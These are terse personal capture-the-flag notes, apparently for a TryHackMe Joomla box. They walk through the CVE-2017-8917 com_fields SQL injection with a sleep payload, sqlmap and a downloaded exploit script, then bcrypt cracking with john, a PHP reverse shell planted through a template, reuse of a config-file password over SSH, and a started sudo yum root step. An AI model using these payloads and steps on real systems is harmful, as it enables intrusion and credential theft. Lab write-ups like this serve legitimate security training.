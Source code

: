 	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	exploit : 
		--> exploit-db :
			=> https://www.exploit-db.com/
			=> cve 
		--> searchsploit "joomla 3.7.0"
			--> Joomla! 3.7.0 - 'com_fields' SQL Injection 
		-->/usr/share/exploitdb/exploits/php/webapps/42033.txt
			=> cve 2017-8917
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		-->sqli : 
			3.7.- com sql 
			=> http:10.10.11.199/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)

			=> sqlmap -u "http://10.10.11.199/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
			=> wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
			python joomblah.py http://10.10.11.199
				=> Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']

		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
			=> https://github.com/XiphosResearch/exploits/tree/master/Joomblah
			=> wget https://github.com/XiphosResearch/exploits/blob/master/Joomblah/joomblah.py
			=> sudo python2 joomblah.py http://10.10.74.183
			=> hash 
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> 查询hash值的加密方式
			=>  https://hashcat.net/wiki/doku.php?id=example_hashes
		--> john --wordlist=/usr/share/wordlists/rockyou.txt jonahhash.txt --format=bcrypt
			=> Jonah : spiderman123
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		http://10.10.55.152/administrator/index.php
		
		--> templates  (beez3)
		=> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
		--> 10.10.55.152/templates/beez3/index.php
		--> cd /home
			--> jjameson
		--> cd /var/www/html
			--> cat configuration
				=> public $password = 'nv5uz9r3ZEDzVjNu';

		--> su jjameson nv5uz9r3ZEDzVjNu
			=> ssh jjameson@10.10.55.152
			=> 27a260fe3cba712cfdedb1c86d80442e
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	root : 
		=> sudo -l 
			=> yum 
		--> https://gtfobins.github.io/
		a) 	
			apt-get install yum 
			https://github.com/jordansissel/fpm
